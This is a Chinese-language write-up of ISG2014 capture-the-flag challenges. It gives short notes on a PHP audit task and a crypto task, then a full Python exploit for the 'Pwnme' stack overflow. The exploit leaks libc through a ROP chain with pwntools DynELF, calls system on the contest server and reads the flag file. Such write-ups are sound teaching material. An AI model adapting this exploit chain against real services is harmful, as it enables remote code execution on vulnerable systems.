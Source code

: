 # ISG2014 Writeups

所有文件打包下载：[ISG.zip](http://drops.wooyun.org/wp-content/uploads/2014/10/ISG.zip)

### Smile Web 200

php 源代码审计

![enter image description here](http://drops.javaweb.org/uploads/images/f2d1d036b258e720c8432046fcb755d6ead8fb32.jpg)

### Cryptobaby Crypto 100

￼按照程序逻辑,把 0x403018 处的数据按 131 进制分开成字符即可。

### Pwnme Exploit 300

漏洞为很明显的栈溢出,但没有提供 libc,需要自行获取 libc 中的函数地址。

在这里我们使用 pwntools 来获取 system 的地址,把参数写在 data 段并最终执行。

执行 system 时有很奇怪的偏移问题这里稍微调整了一下最后执行 system gadget 在栈上的位置。

```
￼￼￼￼￼#!/usr/bin/env python2
from zio import * 
from pwn import *

@MemLeak
def leak_write(addr):
    io.read_until('Pwn me if you can:\n')
    payload = 'A' * 24 + l64(poprdi) + l64(1) + l64(poprsi) + l64(addr) + junk +
l64(write_plt) + l64(main) 
    io.write(payload.ljust(0x100, 'A'))
    ret = io.read(256) 
    return ret

target = './pwnme'
target = ('202.120.7.69', 34343)

poprdi = 0x400663
poprsi = 0x400661 # pop rsi; pop r15; ret ret = 0x400664
write_got = 0x601018
write_plt = 0x400480
main = 0x4005bd
junk = 'J' * 8
data = 0x601040
read_plt = 0x4004a0

io = zio(target, print_read=False, print_write=False, timeout=100000)

elf = DynELF('./pwnme', leak_write) 
system = elf.lookup('system') 
log.success('system: %s' % hex(system))

io.read_until('Pwn me if you can:\n')
payload = 'A' * 24 + l64(poprdi) + l64(0) + l64(poprsi) + l64(data) + junk + l64(read_plt) + l64(poprdi) + l64(data) + l64(ret) * 5 + l64(system)
io.write(payload.ljust(0x100, 'A'))
io.write('cat /home/pwnme/flag\0'.ljust(0x100, 'A'))
io.interact()

```

